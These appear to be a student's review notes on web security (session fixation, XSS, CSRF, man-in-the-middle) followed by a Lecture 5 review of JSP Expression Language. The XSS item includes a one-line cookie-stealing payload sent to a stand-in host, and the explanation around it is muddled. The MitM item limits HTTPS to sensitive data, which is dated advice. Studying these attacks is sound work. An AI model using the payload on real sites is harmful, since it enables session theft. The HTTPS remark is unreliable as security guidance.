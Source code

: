     * Prevention
        * disable embedding session IDs in URLs
        * change session ID after login
    
* Cross-Site Scripting (XSS)
    * Cross-site scripting (XSS) is the ability to get a website to display user-supplied content laced with malicious HTML / JavaScript.
    * Attacker can add some bad code into website, Suppose user click one button the code will run, for example use post image use `document.write("<img src='www.abc.com?id='+document.cookie/>");` , the attacker change the code to `document.write("<img src='www.abc.com?id=123'/>");`
        * user cannot see true image or make true request
       
    * Prevention
        * Session ID cookies should always include the HttpOnly attribute.
    
* Cross-Site Request Forgery (CSRF)
    * attacker find the form request url to remove post by id, such as `www.abc.com/removePost?id=1`, attacker lure user to visit other page But actually it is call removePost url. When user clicked the post will be removed.
    
    * Prevention
        * use a random value of synchronizer token and put into html form, in server side need verify the token
        * The value of a synchronizer token is known as a nonce (number-usedonce).
        
* Man-in-the-middle attack (MitM attack)
    * The network is invaded, An attacker can see all request or response  between the client and server.
    
    * Prevention
        * use HTTPS
            * Used only for protecting data sensitive enough to warrant the performance overhead and hassle of securing every request with HTTPS.
            
           
-------
## Review: Lecture 5
> EL

* EL implicit objects
    ![](./media/15487344932552/15512599333532.jpg)
* Using dot and [ ] operators
    * dot
        * ${person.name}
            * Cannot -> number, java keyword, spaces
    * [  ]operators
        * ${person[name]}
* Accessing scoped variables